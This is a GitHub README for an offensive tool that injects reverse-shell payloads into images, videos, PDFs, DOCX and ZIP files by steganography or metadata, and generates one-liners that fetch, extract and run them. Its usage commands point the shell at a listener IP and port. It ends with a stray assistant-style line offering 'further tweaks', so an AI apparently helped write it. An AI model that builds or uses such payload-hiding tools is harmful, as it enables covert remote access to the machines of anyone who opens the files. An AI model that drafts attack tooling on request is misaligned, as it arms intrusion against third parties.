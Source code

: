 # Steganography Hidden Payload Injector By: Dogematti

This project allows you to dynamically inject payloads, such as reverse shells, into various media files using steganography techniques or metadata manipulation. It supports multiple media formats and provides an easy-to-use command-line interface for injecting and extracting payloads from files.

## Features
- **Dynamic Compatibility Check**: Ensures the media file is supported for payload injection.
- **Reverse Shell Payload Generation**: Dynamically generate reverse shell payloads by specifying an IP and port.
- **Steganography Injection**: Hide payloads within image files using steganography.
- **Metadata Injection**: Inject payloads into media files (e.g., images, videos, PDFs, DOCX, ZIP) using metadata fields.
- **Payload Extraction**: Extract payloads from supported media types.
- **Base64 Encoding**: Optionally encode payloads in Base64 for transport or obfuscation.
- **One-Liner Command Generation**: Create ready-to-use one-liners to extract and execute the hidden payload from a media file.

## Inspiration

This project is inspired by the ideas found in **rMETASHELL**, which provided the foundation and concept for dynamic payload injection and extraction using steganography and metadata manipulation. Thanks to **rMETASHELL** for the inspiration!

## Requirements

The following dependencies are required to run this project:

- **Python 3.x**
- **steghide** (for steganography-based injection)
- **exiftool** (for manipulating metadata in image files)
- **ffmpeg** and **ffprobe** (for handling media files such as mp4 and mp3)
- **unzip** (for extracting payloads from DOCX and ZIP files)

### Install external dependencies:

```bash
sudo apt-get install steghide exiftool ffmpeg unzip# Steganography-hidden-payload


Usage

Inject a Reverse Shell Payload into a PNG Image using Steganography:

python hide-a-payload.py -p reverse_shell -i 192.168.1.100 -r 4444 -f image.png -s

This command generates a reverse shell payload and hides it inside the image.png file using steganography.

Inject a Payload into Media File Metadata:

python hide-a-payload.py -p "Your custom payload here" -f video.mp4

This command injects a custom payload into the metadata of video.mp4.

Extract a Payload from a Media File:

python hide-a-payload.py -x -f image.png

This command extracts the payload hidden in the image.png file.
Generate a One-Liner for Payload Extraction:

python hide-a-payload.py -p reverse_shell -i 192.168.1.100 -r 4444 -f image.png -u http://example.com

You will be prompted to select the type of one-liner to generate for extracting and executing the payload.

Supported Media Types

The tool currently supports the following media formats for payload injection and extraction:

Images: PNG, JPG, JPEG

Videos: MP4

Audio: MP3

Documents: PDF, DOCX

Archives: ZIP


Command-Line Options

-p or --payload: Specify the payload type (e.g., reverse_shell or custom payload).

-i or --ip: IP address for reverse shell payload.

-r or --port: Port for reverse shell payload.

-f or --file: Specify the media file for payload injection or extraction.

-s or --steganography: Use steganography for payload injection.

-x or --extract: Extract payload from a media file.

-b or --base64: Base64 encode the generated payload.

-c or --check: Check if a media file is compatible for payload injection.


Example Usage:

Inject a Reverse Shell Payload into a PNG Image using Steganography

python hide-a-payload.py -p reverse_shell -i 192.168.1.100 -r 4444 -f image.png -s

Extract a Payload from a PNG Image

python hide-a-payload.py -x -f image.png

Generate a One-Liner for Reverse Shell Payload Extraction

python hide-a-payload.py -p reverse_shell -i 192.168.1.100 -r 4444 -f video.mp4 -u http://example.com

License

This project is licensed under the MIT License.

Acknowledgements

Special thanks to rMETASHELL for the idea and inspiration behind this project. Their work laid the foundation for this dynamic media-based payload injection and extraction tool.

This `README.md` should cover all aspects of your project, including installation, usage, and a special acknowledgment to **rMETASHELL** for the idea. Let me know if you need further tweaks!